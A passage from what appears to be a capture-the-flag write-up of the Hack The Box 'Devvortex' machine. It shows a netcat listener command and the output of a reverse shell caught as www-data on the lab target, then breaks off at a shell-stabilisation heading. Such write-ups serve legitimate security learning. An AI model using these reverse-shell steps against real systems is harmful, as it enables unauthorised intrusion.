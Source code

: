 > *The `>&` operator is shorthand for redirecting both stdout (1) and stderr (2).*

<img src="/assets/img/20240115-devvortext-revshell.png" alt="20240115-devvortext-revshell.png" class="auto-resize">

Starting a netcat listener and then navigating back to http://dev.devortex.htb/administrator in a private window returns as a reverse shell.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.16] from (UNKNOWN) [10.129.15.24] 45554
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator$ 

```

### Shell stabilisation

Now the shell can be stabilised before proceeding.

